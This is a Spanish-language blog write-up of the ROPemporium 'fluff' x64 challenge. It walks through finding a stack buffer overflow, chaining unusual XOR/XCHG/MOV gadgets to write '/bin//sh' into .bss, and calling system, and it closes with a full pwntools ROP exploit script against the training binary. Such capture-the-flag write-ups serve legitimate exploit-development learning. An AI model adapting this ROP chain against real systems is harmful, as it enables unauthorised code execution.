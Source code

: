 ```yaml
---
layout: post
title: WRITEUP, ROPemporium, FLUFF (x64)
date: 2020-04-22 01:21
comments: true
categories: [buffer overflow, CTF, dplastico, exploit dev, exploitdev, pwn, rop, ROPemporium, Sin categoría]
---
```

<!-- wp:paragraph -->
<p>Hace tiempo que no escribia, pero tenia este post guardado de hace un tiempo, asi que hoy me anime a tomar un par de screenshots y hablar al respecto, ya que me parecio un ejercico super bueno para explicar como funciona ROP, esta vez con algunos gadgets un poco inusuales, asi que con el animo de seguir con lo educativo (que a mi me sirve para aprender) nos lanzamos con este post</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>El challenge esta tomado de ROPemporium, excelente pagina para aprender explotacion con ROP y binarios con DEP escencialmente. De verdad creo que los ejercicios son super y hacerlo sin mirar un writeup ayuda definitivamnete, por lo que si no has hecho el reto FLUFF (o si estas ya haciendo tus primeros ROP) Te recomiendo que lo intentes por ti mismo, definitivamente te servira</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p><a href="https://ropemporium.com/challenge/fluff.html">FLUFF ROPEMPORIUM</a></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>El challenge podemos ver es un binario de 64 bits (hay una version de 32, pero esta vez hare la de 64) con proteccion NX activada</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":176,"width":597,"height":147} -->
<figure class="wp-block-image is-resized"><img src="/wp-content/uploads/2020/04/image-1.png" alt="" class="wp-image-176" width="597" height="147" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Podemos observar también las funciones del programa usando gdb (que estare usando para debugear el binario junto con el plugin <a href="https://github.com/pwndbg/pwndbg">pwndbg</a>)</p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>Al ejecutar el programa vemos que espera que ingresemos nuestro input (el cual luego veremos nos llevara a un Buffer Overflow)</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":195} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-16.png" alt="" class="wp-image-195" /></figure>
<!-- /wp:image -->

<!-- wp:image {"id":177} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-2.png" alt="" class="wp-image-177" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Vemos varias funciones con nombres que nos dan pistas de cómo pwnear este binario, pero vamos por lo primero, que tenemos en main? Claramente vemos una llamada a la función pwnme</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":179} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-3.png" alt="" class="wp-image-179" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Chequeamos usando cyclic donde ocurre el overflow y que registros podemos controlar:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":193} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-14.png" alt="" class="wp-image-193" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Comprobamos el offset a RSP, el cual es 40</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":194} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-15.png" alt="" class="wp-image-194" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>La cual podemos observar tiene un Buffer overflow en fgets (no entraré en detalles de buffer overflow esta vez, puedes leer al respecto en este <a href="/tutorial-simple-stack-buffer-overflow/">post</a> , o bien <a href="https://es.wikipedia.org/wiki/Desbordamiento_de_b%C3%BAfer">aca</a>.)</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":180} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-4.png" alt="" class="wp-image-180" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Procedemos ahora a buscar funciones para pwnear este binario, una forma seria llamando a system, pero el string de “/bin/sh” no se encuentra disponible para hacer el clasico <a href="https://www.exploit-db.com/docs/english/28553-linux-classic-return-to-libc-&amp;-return-to-libc-chaining-tutorial.pdf">ret2libc</a> (o ret2system en este caso)<br>observamos ambas funciones, en UsefulFuction, podemos ver una llamada a system que nos servirá más adelante</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":181} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-5.png" alt="" class="wp-image-181" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Pero en questionableGadgets observamos varios pop y sobre todo un MOV [r10], r11. Esto es importante ya que nos permite copiar la dirección que sea que esté en r11 dentro de la dirección que contiene r10, por lo mismo si encontramos una zona del binario donde escribir (RW) podemos escribir el string de /bin/sh para luego cargarlo en RDI y llamar a system, si aun no has hecho este desafio, te&nbsp; sugiero &nbsp;intentar &nbsp;esta &nbsp;parte &nbsp;por &nbsp;ti &nbsp;mismo, &nbsp;es &nbsp;lo &nbsp;mas entretenido&nbsp;;)<br></p>
<!-- /wp:paragraph -->

<!-- wp:paragraph -->
<p>OK, Estos son los gadgets con los que trabajaremos</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":182} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-6.png" alt="" class="wp-image-182" /><figcaption><br></figcaption></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Donde escribir? Buscando podemos descubrir que la sección .bss se puede escribir en 0x601060, trabajamos con esta, podemos chequear permisos y direcciones con  <strong><em>objdump -h fluff</em></strong> </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":185} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-9.png" alt="" class="wp-image-185" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Ok, no se ve tan sencillo como unos simples pop, pero podemos observar que podemos mover la dirección&nbsp; de r11 a la dirección&nbsp; que se contiene r10, pero no tenemos como poner ningún valor en R11 (no se ven POP R11 RET o similar)</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":186} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-10.png" alt="" class="wp-image-186" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Tampoco tenemos un POP R10 que nos permita setear el valor de la direccion, pero si podemos controlar el valor de r12 </p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":188} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-12.png" alt="" class="wp-image-188" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Nuestro plan para este ROP es el siguiente:</p>
<!-- /wp:paragraph -->

<!-- wp:list -->
<ul><li>Controlar el valor de r12 con un pop r12  y setearlo a la  <br>dirección&nbsp; de el segmeto .bss</li><li>Setear el valor de R11 a cero usando XOR</li><li>Pasar el valor der R12 a R11 usando XOR</li><li>usar el gadget con la orden XCHG para intercambiar los valores de R10 y R11 (ahora R10 tiene la dirección&nbsp;de .BSS)</li><li>Setear el string de "/bin/sh" a r12 por medio de una instrucción POP R12</li><li> Setear el valor de R11 a cero usando XOR </li><li> Pasar el valor der R12 a R11 usando XOR </li><li>Volver R12 a 0x0 (para no pisarnos con el ultimo XOR BYTE PTR [r10],r12b luego de la instrucción MOV QWORD PTR [r10],r11 en 0x40084e)</li><li>Mover R11 como contenido a la dirección en R10 (en este caso el segmento .bss)</li></ul>
<!-- /wp:list -->

<!-- wp:paragraph -->
<p>Suena bien, con la ayuda de pwntools, ropper y la información  en el binario podemos completar el rop:</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":192} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-13.png" alt="" class="wp-image-192" /></figure>
<!-- /wp:image -->

<!-- wp:paragraph -->
<p>Aca el exploit completo</p>
<!-- /wp:paragraph -->

<!-- wp:code -->
<pre class="wp-block-code"><code>from pwn import *

e = ELF('./fluff')
r = process("./fluff")
#gdb.attach(r) #para atachar GDB duh!
#copiar la bss address a r12
rop = p64(0x0000000000400832) #pop r12; mov r13d, 0x604060; ret; 
rop += p64(0x601060) #bss a r12 (pop)
#poner en cero r11
rop += p64(0x0000000000400820) #xor x11 x11
rop += "DPLADPLA" #pop r15
rop += "DPLADPLA" #pop r14
#xor moviendo r12 a r11 con xor
rop += p64(0x000000000040082d)
rop += "DPLADPLA" #pop r14
rop += "DPLADPLA" #pop a r12
#xchg cambiando r11 con r10
rop += p64(0x000000000040083b) 
rop += "DPLADPLA" #pop a r15
#bss queda en r10
#comenzaomos a escribinr binsh
#binsh a r12
rop += p64(0x0000000000400832) #pop r12; mov r13d, 0x604060; ret;
rop += "/bin//sh" #string de /bin/sh pop a r12
#r11 a cero
rop += p64(0x0000000000400820) #xor x11 x11
rop += "DPLADPLA" #pop r15
rop += "DPLADPLA" #pop r14
#r12 a r11
#xor moviendo r12 a r11 con xor
rop += p64(0x000000000040082d)
rop += "DPLADPLA" #pop r14
rop += p64(0x0000000000000000) #pop a r12
#move de r11 al contenido de r10
rop += p64(0x000000000040084c)#move, volver r12 a cero antes
rop += "DPLADPLA" #pop r15
rop += "DPLADPLA" #pop r13
rop += p64(0x0000000000000000) #pop r12 para el xor y que no cambie

#system
rop += p64(0x00000000004008c3)#pop rdi; ret;
rop += p64(0x601060)
rop += p64(e.symbols['system']) #magia de pwntools

payload = "A" * 40
payload += rop
r.sendlineafter("&gt;", payload)
r.interactive()</code></pre>
<!-- /wp:code -->

<!-- wp:paragraph -->
<p>Ejecutar y shell ! Espero les haya gustado</p>
<!-- /wp:paragraph -->

<!-- wp:image {"id":196} -->
<figure class="wp-block-image"><img src="/wp-content/uploads/2020/04/image-17.png" alt="" class="wp-image-196" /></figure>
<!-- /wp:image -->
